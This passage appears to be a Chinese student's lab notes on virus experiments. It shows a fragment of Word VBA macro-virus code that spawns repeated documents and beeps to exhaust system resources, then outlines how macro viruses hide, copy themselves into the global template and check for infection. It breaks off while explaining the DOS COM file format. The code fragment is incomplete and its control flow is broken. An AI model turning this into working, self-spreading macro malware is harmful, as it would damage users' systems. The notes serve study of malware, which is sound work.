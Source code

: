 ```visual basic
Count = Count + 1 'count++，本来count初始化为0

For j = 1 To 20 '执行循环语句，循环20次

Beep

Documents.Add '增加一个现在这个文档

Next j

Selection.Paragraphs.Alignment = wdAlignParagraphCenter

'设置文本格式为居中对齐

Selection.InsertAfter Text:="宏病毒" '嵌入一个文本

If Count = 2 Then GoTo out

'判断是否执行打开该文本操作够2个20次，如果够了就退出goto语句

GoTo try

WordBasic.filedefault '退出WordBasic文本

End If

Wend '结束with语句

out: '退出

End Sub '退出Sub
```

学习了宏病毒的结构 和 去除宏病毒的方法

结构

-   屏蔽状态栏，以免显示宏病毒执行状态；修改公用模版是自动保存且不提示；自动执行病毒模板

-   判断是否是 公用模板 ，否则复制到共用模板

-   通过首行内容判断是否感染病毒

-   执行病毒主体

利用多开窗口等方式耗尽系统资源以影响使用

## COM病毒实验

1) COM文件的特点

COM文件是DOS的一种二进制代码的可执行文件，COM文件结构比较简单，加载过程十分迅速。整个程序只有一个段。因此全部代码长度必须小于64K，其入口代码地址是CS:100H。DOS装入COM文件时，先在内存建立一个长度为100H的程序前缀段(PSP，由DOS建立，是DOS用户程序和命令行之间的接口)，然后将整个文件装载于PSP上端，不进行重定位操作，接着将四个段地址寄存器DS(Data
Segment)，CS(Code Segment)，SS(Stack Segment)，ES(Extra Segment)初始化为程序前缀段(PSP)的段地址，最后将程序的控制权交于CS:100H处。如表一所示：
